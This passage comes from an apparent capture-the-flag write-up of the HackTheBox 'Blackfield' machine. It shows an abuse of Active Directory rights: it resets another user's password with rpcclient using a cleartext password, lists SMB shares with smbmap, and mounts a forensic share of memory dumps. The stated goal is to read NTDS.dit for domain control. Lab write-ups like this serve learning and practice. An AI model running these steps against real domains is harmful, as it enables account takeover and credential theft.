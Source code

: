 It turns out we're correct. Checking for information on the other users we found yields the following graphs

<img src="https://github.com/susMdT/Nigerald/blob/master/assets/images/Blackfield_Bloodhound.PNG?raw=true" class="postImagecontent" width="100%" height="100%" unselectable="on" />

First thing to note is that our user, support, can change the password for the user audit2020. There is also another user, svc_backup, which is in the Backup Operators group. Members of this group usually have the SeBackupPivilege and SeRestorePrivilege, allowing them to read any files. Since we want to obtain control over the domain, we would read the NTDS.dit and the System hive (more on this later). To start our attack path, lets start by resetting the password of audit2020. While we don't have code exeuction on the computer to do this, we can use the MSRPC service to our advantage. 

```
┌──(root💀kali)-[/home/kali/GithubTools/impacket]
└─# rpcclient -U 'support%#00^BlackKnight' 10.10.10.192                                                             
rpcclient $> setuserinfo audit2020 23 'OrbitalNumber1'

//The 23 specifies the command to use the privilege information of the user we authenticated as, and because user //support has the privilege to overwrite the audit user's password, this works.
```

Our suspicions from earlier turn out to be true; we can read from the forensic share.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# smbmap -H 10.10.10.192 -u 'audit2020' -p 'OrbitalNumber1'
[+] IP: 10.10.10.192:445        Name: blackfield.htb                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                READ ONLY       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```

While trying to exfiltrate the files from the share, they turned out to be too large so I ended up just mounting the share onto my own host.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# mount //10.10.10.192/forensic ./tmp/ -o username=audit2020 
Password for audit2020@//10.10.10.192/forensic:

┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]                                                     
└─# ls -laR tmp/* 
                                                                                                       
tmp/memory_analysis:                                                                                   
total 506004                                                                                           
drwxr-xr-x 2 root root         0 May 28  2020 .                                                        
drwxr-xr-x 2 root root      4096 Feb 23  2020 ..                                                       
-rwxr-xr-x 1 root root  37876530 May 28  2020 conhost.zip                                              
-rwxr-xr-x 1 root root  24962333 May 28  2020 ctfmon.zip                           
-rwxr-xr-x 1 root root  23993305 May 28  2020 dfsrs.zip                                                
-rwxr-xr-x 1 root root  18366396 May 28  2020 dllhost.zip                       
-rwxr-xr-x 1 root root   8810157 May 28  2020 ismserv.zip                                
```